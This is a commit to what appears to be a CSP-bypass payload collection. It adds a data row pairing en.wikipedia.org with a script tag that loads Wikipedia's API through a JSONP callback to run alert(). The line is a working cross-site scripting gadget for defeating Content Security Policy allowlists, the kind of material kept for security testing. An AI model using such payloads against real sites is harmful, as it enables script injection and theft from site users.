

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added en.wikipedia.org callback endpoint

```diff
--- a/data.tsv
+++ b/data.tsv
+row 87: en.wikipedia.org <script src="https://en.wikipedia.org/w/api.php?action=parse&format=json&page=x&callback=alert"></script>
```
